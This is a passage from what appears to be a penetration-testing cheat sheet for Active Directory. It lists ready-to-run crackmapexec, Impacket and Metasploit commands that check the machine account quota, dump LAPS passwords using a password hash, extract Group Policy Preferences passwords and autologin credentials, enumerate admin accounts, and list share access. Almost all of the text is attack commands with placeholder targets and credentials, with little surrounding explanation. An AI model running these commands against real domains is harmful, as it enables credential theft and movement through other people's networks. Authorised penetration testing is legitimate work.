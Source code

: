 ### Machine Account Quota
Identify machine account quota domain attribute:
```
crackmapexec ldap 192.168.0.10 -u jdoe -H XXXXXX:XXXXXXX -M MAQ --kdcHost corp.company.local
```

```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### LAPS / LAPS bypass
Retrieving LAPS passwords using Crackmapexec
```
crackmapexec ldap 192.168.0.10 -u jdoe -H XXXXX:XXXXX -M laps --kdcHost corp.company.local
```

### Admin Count
```
crackmapexec ldap company.com -u 'jdoe' -p 'Pass1234' -d company.com --admin-count
```

### Checking GPP passwords
- https://pentestlab.blog/tag/gpp/
Using crackmapexec GPP module
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M gpp_password
```

Using Impackets Get-GPPPassword.py
```
python3 Get-GPPPassword.py company.com/jdoe:Pass1234@10.10.0.10
```

Using Metasploit module
```
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set rhosts 192.168.0.10
msf auxiliary(smb_enum_gpp) > set smbuser jdoe
msf auxiliary(smb_enum_gpp) > set smbpass Pass1234
msf auxiliary(smb_enum_gpp) > exploit
```

### Checking GPP autologin
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M gpp_autologin
```

### Checking share
Checking share access rights with domain user
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com --shares
```

Complete review of network share permissions.  
--> [Powerhuntshare](https://github.com/NetSPI/Powerhuntshares) can be run from domain or non domain joined machine.
